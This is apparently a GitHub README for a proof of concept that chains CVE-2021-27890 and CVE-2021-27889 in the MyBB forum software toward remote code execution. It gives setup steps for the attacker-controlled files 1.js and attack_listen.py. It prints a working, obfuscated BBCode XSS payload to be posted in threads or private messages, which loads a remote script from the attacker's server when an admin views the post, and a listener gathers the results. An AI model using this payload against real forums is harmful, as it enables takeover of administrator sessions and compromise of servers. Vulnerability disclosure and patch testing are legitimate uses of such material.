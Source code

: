 # Mybb-XSS_SQL_RCE-POC
Mybb associate CVE-2021-27890 &amp; CVE-2021-27889 to RCE poc



**Before Use:**

There are two files here:  1.js and attack_listen.py

You should modify these two file:

**1.js:**

modify the mybb forum url and attack url:

```js
var bashurl = 'http://192.168.92.164/mybb/mybb-mybb_1825' #mybb forum url
var attack_url = 'http://192.168.92.165:8080/attack_success' #change the attack machine ip.should keep the same with the attack_listen.py
```



**attack_listen.py**

modify the attack host and attack port:

```python
attack_host = '192.168.92.165'
attack_port = 8080
```



**Usage:**

CVE-2021-27889 is xss. You should inject the following payload in "**New Post Thread**" or "**Reply**" or "**Private Messages**".In this demo,I send the payload to "New Post Thread"

*notice that the **192.168.92.165** is the evil server ip,You should change it.*

```html
[img]http://evil.com/xx(http://evil.com/onerror=xs1=String.fromCharCode(47);xa1=document.createElement(/script/.source);xa1.src=xs1+xs1+/192.168.92.165/.source+xs1+/1.js/.source;document.getElementById(/header/.source).append(xa1);//[/img]
```

![](./img/1.png)

Now Our evil js **1.js** is injected successful.Then we should wait an Admin browsed this Post with loggined admin page.

*Notice that the Admin user have no necessary loggin the forum page.*



In our waiting time,We should run the "attack_listen.py" in our attack machine, To identify if the Admin user be attacked.

```shell
python3 attack_listen.py
```



When the Admin user browsed the evil post,the evil js will do the attack:

![](./img/2.png)



We can recive the information at our attack machine:

![](./img/3.png)



![](./img/4.png)